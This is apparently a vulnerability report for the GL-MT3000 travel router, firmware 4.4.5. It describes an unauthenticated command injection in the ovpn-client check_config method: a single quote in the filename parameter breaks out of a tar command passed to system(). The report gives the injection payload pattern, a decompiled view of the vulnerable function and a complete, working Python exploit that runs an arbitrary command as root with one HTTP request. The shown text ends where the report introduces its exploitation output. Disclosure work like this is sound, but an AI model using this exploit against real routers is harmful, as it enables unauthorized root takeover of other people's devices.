


Submission Date: 2026.5.18
Vendor: GL-MT3000
Version: 4.4.5
Firmware: openwrt-mt3000-4.4.5-0811-1691754744.tar
Download Link: https://dl.gl-inet.cn/router/mt3000/stable


An unauthenticated command injection vulnerability exists in the `/cgi-bin/glc` endpoint via the `ovpn-client.check_config` method of the affected product. The `ovpn-client.so` native plugin at `/usr/lib/oui-httpd/rpc/ovpn-client.so` wraps the attacker-supplied `filename` parameter in single quotes within a `tar` command executed via `system()`. A single-quote character `'` in the filename closes the quoted context early, allowing shell command injection. Unlike `upload_config`, this method requires no prior file upload and no authentication, resulting in root command execution with a single unauthenticated HTTP request.

The reported vulnerable flow is:

```text
Unauthenticated attacker
  -> POST /cgi-bin/glc {"object":"ovpn-client","method":"check_config",
       "args":{"group_id":"0","filename":"';<cmd>;#.tar.gz"}}
  -> ovpn-client.so check_config @ 0x00107c74:
       sprintf(cmd, "tar -zxvf '/tmp/ovpn_upload/%s' -C ...", filename)
       system(cmd)
  -> shell parses:
       tar -zxvf '/tmp/ovpn_upload/'    <- quote closed, tar fails
       ; <cmd>                          <- RCE (root)
       ; #.tar.gz' -C ...               <- commented out
```

Ghidra decompilation of `check_config` at 0x00107c74 (1152 bytes, 18 basic blocks):



```c
bool check_config(undefined8 param_1, undefined8 param_2)
{
    // Requires group_id (any value) and filename
    json_object_get(param_1, "group_id");
    json_object_get(param_1, "filename");          // Source
    if (group_id == NULL || filename == NULL) {
        error("parameter missing");
    }
    // Extension check via strstr() — no shell metacharacter check
    if (strstr(filename, ".zip")) {
        sprintf(cmd, "cd /tmp/ovpn_upload/; unzip -q \"%s\"; ...", filename);
    } else {
        sprintf(cmd, "cd /tmp/ovpn_upload/; tar -zxvf '/tmp/ovpn_upload/%s' -C ...",
                filename);                         // SINK — single-quoted
    }
    system(cmd);
}
```

The single-quote escaping is intended to prevent whitespace-splitting of filenames, but ironically creates the injection vector: the attacker-supplied `'` character closes the quote, and subsequent shell metacharacters (`;`, `|`, `$()`) execute in the unquoted context.

Exploit the vulnerability by sending a crafted HTTP request:

```python
#!/usr/bin/env python3
"""PoC: ovpn-client.check_config filename single-quote escape -> unauthenticated RCE"""
import json, ssl, sys, urllib.request, urllib.error

TARGET = sys.argv[1] if len(sys.argv) > 1 else "https://192.168.8.1"
CMD    = sys.argv[2] if len(sys.argv) > 2 else "id > /tmp/poc_ovpn_check"

ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

filename = f"';{CMD};#.tar.gz"
data = json.dumps({"object":"ovpn-client","method":"check_config",
    "args":{"group_id":"0","filename":filename}}).encode()
req = urllib.request.Request(f"{TARGET}/cgi-bin/glc", data=data,
    headers={"Content-Type": "application/json"}, method="POST")
try:
    resp = urllib.request.urlopen(req, timeout=15, context=ctx)
    print(f"[+] filename: '{filename}'")
    print(f"[+] response: {resp.read().decode(errors='replace')[:200]}")
    print(f"[+] check /tmp/poc_ovpn_check on target")
except Exception as e:
    print(f"[-] {e}")
```

The exploitation is shown below.


